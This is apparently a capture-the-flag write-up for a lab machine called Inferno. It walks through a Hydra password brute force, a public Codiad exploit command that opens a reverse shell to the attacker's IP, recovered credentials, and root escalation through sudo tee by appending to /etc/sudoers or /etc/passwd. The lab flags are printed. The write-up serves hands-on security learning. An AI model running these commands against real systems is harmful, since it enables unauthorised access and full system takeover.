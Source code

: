 # Inferno
Difficulty = Medium
IP = 10.10.99.146

## Web enumeration

Scan the IP with rustscan or nmap and I found out 22 and 80 open.
Run gobuster scan on URL.
I found one directory named inferno which was protected by password.

Since we don't have a specific username to crack with, I wrote some possible usernames:

```
admin
root
inferno
dante
```
Lets crack the password with hydra.

```
hydra -L possibleUsers.txt -P /usr/share/wordlists/rockyou.txt 10.10.99.146 http-get /inferno/ -t 64
```

```
login: admin   password: dante1
```

Lets login into the directory.

After loging in twice with the same creds, there was a codiad IDE. On searching an exploit for codiad, I found [exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit).
This exploit needs 3 terminals. In one run this exploit as:

```
python2 exploit.py http://admin:dante1@10.10.99.146/inferno 'admin' 'dante1' <Your-THM-IP> <listening-PORT> linux
```
In others, run the command as given by the expoit.

I got the shell but everytime I got a reverse shell, after sometime, it crashed. One time, when I got shell, I quickly ran /bin/sh and it worked. Now it doesn't crashes.

## Local.txt

In /home/dante/Downloads/ there is a hidden file .download.dat. Its content are:

```
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33 0a
```

After decoding it online from hex, I got dante's creds.

```
dante:V1rg1l10h3lpm3
```

Now ssh into the machine.

local.txt was in dante's home directory.

Local.txt

```
77f6f3c544ec0811e2d1243e2e0d1835
```

## Pivellege escalation

When I ran sudo -l, I found that we can run /usr/bin/tee as root.
Which means, we can write into any file as root.

There are many ways of escalating to root.

Two of them are:

```
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers
```

This will give dante all permissions as root.
After this, run sudo su and we got root.

Another way is adding another user with root privelleges.
```
openssl passwd -1 -salt pwn pwn
```

This will give a hash.

```
echo "pwn:<HASH>:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```
After this, sun sudo pwn and get root shell.

Proof.txt

```
f332678ed0d0767d7434b8516a7c6144
```
